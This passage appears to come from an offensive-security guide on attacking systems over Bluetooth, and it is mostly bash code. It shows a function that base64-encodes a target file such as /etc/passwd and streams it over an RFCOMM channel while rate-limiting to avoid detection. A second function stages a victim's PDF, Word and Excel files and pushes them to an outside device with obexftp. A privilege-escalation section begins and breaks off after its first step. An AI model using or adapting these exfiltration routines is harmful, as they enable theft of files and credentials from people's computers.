 \# Step 2: Data exfiltration script\
exfiltrate_data() {\
local target_file=\$1\
local output_channel=\$2

    echo "Exfiltrating $target\_file via Bluetooth..."  
        
    \# Encode and transmit data in chunks  
    base64 $target\_file | while read line; do  
        echo "DATA:$line" \> /dev/rfcomm$output\_channel  
        sleep 0.1  \# Avoid detection through rate limiting  
    done  
        
    echo "EOF" \> /dev/rfcomm$output\_channel  

}

\# Usage example\
exfiltrate_data "/etc/passwd" "10"

#### **Method 2: Bluetooth File Transfer Exploitation**

\# OBEX-based data exfiltration\
obex_exfiltrate() {\
local target_mac=\$1\
local source_dir=\$2

    echo "Starting OBEX exfiltration from $source\_dir"  
        
    \# Create temporary FTP directory structure  
    mkdir \-p /tmp/exfil\_staging  
        
    \# Copy sensitive files to staging area  
    find $source\_dir \-type f \-name "\*.pdf" \-o \-name "\*.doc\*" \-o \-name "\*.xls\*" | \\  
    while read file; do  
        cp "$file" /tmp/exfil\_staging/  
    done  
        
    \# Transfer files via OBEX  
    cd /tmp/exfil\_staging  
    for file in \*; do  
        echo "Transferring $file..."  
        obexftp \-b $target\_mac \-p "$file"  
    done  

}

### **Privilege Escalation Techniques**

#### **Bluetooth Stack Exploitation**

\# Exploit Bluetooth service vulnerabilities for privilege escalation\
privilege_escalation() {\
echo "Attempting Bluetooth privilege escalation..."

    \# Step 1: Check current privileges  
    id \> /tmp/current\_privs.txt  
        